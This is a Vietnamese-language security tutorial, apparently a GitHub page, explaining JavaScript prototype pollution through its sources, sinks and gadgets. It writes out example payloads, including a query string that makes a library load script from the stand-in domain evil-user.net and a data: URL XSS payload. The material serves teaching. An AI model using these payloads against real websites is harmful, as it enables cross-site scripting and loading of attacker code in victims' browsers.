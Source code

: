 ## Prototype Pollution là gì?
Prototype Pollution là một lỗ hổng trong JavaScript, cho phép kẻ tấn công thêm các thuộc tính tùy ý vào các prototype của đối tượng toàn cục. Những thuộc tính này có thể được các đối tượng do người dùng định nghĩa kế thừa.

![alt text](image.png)

Dù prototype pollution thường không phải là một lỗ hổng có thể khai thác độc lập, nhưng nó cho phép kẻ tấn công kiểm soát các thuộc tính của đối tượng mà bình thường sẽ không thể truy cập được. Nếu ứng dụng xử lý các thuộc tính do kẻ tấn công kiểm soát theo cách không an toàn, lỗ hổng này có thể được kết hợp với các lỗ hổng khác.

- Trong JavaScript phía client, điều này thường dẫn đến DOM XSS.
- Trong JavaScript phía server, prototype pollution có thể dẫn đến remote code execution (RCE).

## Nguyên nhân lỗ hổng Prototype Pollution
Lỗ hổng này thường xuất hiện khi một hàm JavaScript thực hiện việc merge đệ quy (`recursive merge`) một đối tượng có chứa các thuộc tính do người dùng kiểm soát vào một đối tượng hiện có mà không kiểm tra hoặc lọc các key. Điều này cho phép kẻ tấn công chèn thuộc tính với key đặc biệt như `__proto__`, cùng với các thuộc tính lồng ghép tùy ý.

Vì `__proto__` có ý nghĩa đặc biệt trong JavaScript, thao tác merge này có thể gán các thuộc tính lồng ghép vào prototype của đối tượng thay vì chính đối tượng đó. Do đó, kẻ tấn công có thể "nhiễm độc" prototype bằng các thuộc tính chứa giá trị độc hại, dẫn đến việc ứng dụng sử dụng chúng theo cách nguy hiểm.

Lỗ hổng này có thể xảy ra với bất kỳ prototype nào, nhưng thường gặp nhất ở prototype toàn cục mặc định `Object.prototype`.

Khai thác **Prototype Pollution** cần những gì?
- Nguồn gây ô nhiễm (Source):
Đầu vào cho phép kẻ tấn công tiêm các thuộc tính tùy ý vào các prototype.

- Sink:
Hàm JavaScript hoặc DOM element nào đó có thể dẫn đến thực thi mã tùy ý.

- Gadget có thể khai thác:
Thuộc tính được truyền vào sink mà không được lọc hoặc kiểm tra hợp lệ.

## Prototype pollution sources
Prototype pollution sources là bất kỳ đầu vào nào mà người dùng có thể kiểm soát và cho phép thêm các thuộc tính tùy ý vào prototype của đối tượng. Các nguồn phổ biến bao gồm:

- URL thông qua query string hoặc fragment string (hash)
- Dữ liệu JSON
- Web messages

### Prototype Pollution qua URL
Xem xét URL sau, nơi query string được kẻ tấn công tạo:
```js
https://vulnerable-website.com/?__proto__[evilProperty]=payload
```

Khi phân tích query string thành các cặp `key:value`, trình phân tích URL có thể coi `__proto__` như một chuỗi ký tự tùy ý. Tuy nhiên, nếu các key và value này được merge vào một đối tượng hiện có, kết quả có thể như sau:

```js
{
    existingProperty1: 'foo',
    existingProperty2: 'bar',
    __proto__: {
        evilProperty: 'payload'
    }
}
```
Nhưng thực tế, phép gán đệ quy có thể thực hiện một câu lệnh như sau:
```js
targetObject.__proto__.evilProperty = 'payload';
```

Khi đó, JavaScript coi `__proto__` là getter cho prototype, khiến `evilProperty` được gán vào prototype của đối tượng thay vì chính đối tượng đó.

Nếu đối tượng mục tiêu sử dụng prototype mặc định `Object.prototype`, mọi đối tượng trong runtime JavaScript sẽ kế thừa thuộc tính `evilProperty`, trừ khi chúng đã có thuộc tính trùng key.

### Prototype Pollution qua JSON Input
Dữ liệu đầu vào do người dùng kiểm soát thường được tạo từ chuỗi JSON thông qua `JSON.parse()`, trong đó mọi key, kể cả `__proto__`, đều được xử lý như chuỗi ký tự tùy ý.

Ví dụ, kẻ tấn công có thể chèn JSON độc hại sau:
```js
{
    "__proto__": {
        "evilProperty": "payload"
    }
}
```

Khi được chuyển thành đối tượng JavaScript qua `JSON.parse()`, kết quả sẽ có thuộc tính với key `__proto__`:
```js
const objectFromJson = JSON.parse('{"__proto__": {"evilProperty": "payload"}}');
objectFromJson.hasOwnProperty('__proto__'); // true
```

Nếu đối tượng được tạo qua `JSON.parse()` được merge vào một đối tượng hiện có mà không lọc key, sẽ xảy ra `prototype pollution`, giống như trường hợp với URL.

## Prototype Pollution Sinks
`Prototype pollution sink` là bất kỳ hàm JavaScript hoặc phần tử DOM nào mà bạn có thể truy cập thông qua prototype pollution, cho phép bạn thực thi JavaScript tùy ý hoặc lệnh hệ thống.

Chúng ta đã đề cập chi tiết về một số sink phía client trong chủ đề về DOM XSS.

Prototype pollution cho phép bạn kiểm soát các thuộc tính vốn không thể truy cập được, từ đó có khả năng khai thác nhiều sink bổ sung trong ứng dụng mục tiêu. Các nhà phát triển không quen thuộc với prototype pollution có thể cho rằng những thuộc tính này không thể bị người dùng kiểm soát, dẫn đến việc lọc và xử lý dữ liệu đầu vào không đầy đủ.


## Prototype Pollution Gadgets
Gadget là công cụ biến lỗ hổng prototype pollution thành một khai thác thực tế. Gadget là bất kỳ thuộc tính nào thỏa mãn:

- Được ứng dụng sử dụng một cách không an toàn, chẳng hạn truyền vào một sink mà không qua lọc hoặc kiểm tra.
- Có thể bị kẻ tấn công kiểm soát thông qua prototype pollution, tức là đối tượng phải có khả năng kế thừa phiên bản độc hại của thuộc tính được thêm vào prototype bởi kẻ tấn công.

Một thuộc tính không thể trở thành gadget nếu nó được định nghĩa trực tiếp trên đối tượng. Khi đó, phiên bản thuộc tính của đối tượng sẽ ưu tiên hơn phiên bản độc hại được thêm vào prototype. Các trang web bảo mật cao có thể thiết lập prototype của đối tượng là `null`, ngăn chặn việc kế thừa bất kỳ thuộc tính nào.

### Ví dụ về công cụ tấn công prototype pollution
Nhiều thư viện JavaScript chấp nhận một đối tượng mà nhà phát triển có thể sử dụng để thiết lập các tùy chọn cấu hình khác nhau. Mã thư viện kiểm tra xem nhà phát triển có thêm các thuộc tính cụ thể vào đối tượng này hay không, và nếu có, nó điều chỉnh cấu hình tương ứng. Nếu một thuộc tính đại diện cho một tùy chọn cụ thể không tồn tại, thư viện thường sử dụng tùy chọn mặc định được định nghĩa trước. Ví dụ đơn giản:
```js
let transport_url = config.transport_url || defaults.transport_url;
```

Bây giờ, giả sử mã thư viện sử dụng `transport_url` để thêm một tham chiếu script vào trang:
```js
let script = document.createElement('script');
script.src = `${transport_url}/example.js`;
document.body.appendChild(script);
```
Nếu các nhà phát triển trang web không thiết lập thuộc tính `transport_url` trên đối tượng `config`, đây là một công cụ tiềm năng. Trong trường hợp kẻ tấn công có thể gây ô nhiễm `Object.prototype` toàn cục với thuộc tính `transport_url` của riêng họ, thuộc tính này sẽ được thừa kế bởi đối tượng `config` và được đặt làm giá trị `src` của script, trỏ đến một domain do kẻ tấn công kiểm soát.

Nếu prototype có thể bị ô nhiễm thông qua một tham số truy vấn, chẳng hạn, kẻ tấn công chỉ cần lừa nạn nhân truy cập vào một URL được chế tạo đặc biệt để trình duyệt của họ tải một file JavaScript độc hại từ domain của kẻ tấn công:

```js
https://vulnerable-website.com/?__proto__[transport_url]=//evil-user.net
```
Bằng cách cung cấp một URL dạng `data:`, kẻ tấn công cũng có thể nhúng trực tiếp payload XSS vào chuỗi truy vấn như sau:

```
https://vulnerable-website.com/?__proto__[transport_url]=data:,alert(1);//
```
Lưu ý rằng phần `//` ở cuối ví dụ trên chỉ dùng để comment suffix `/example.js` đã được mã hóa sẵn.

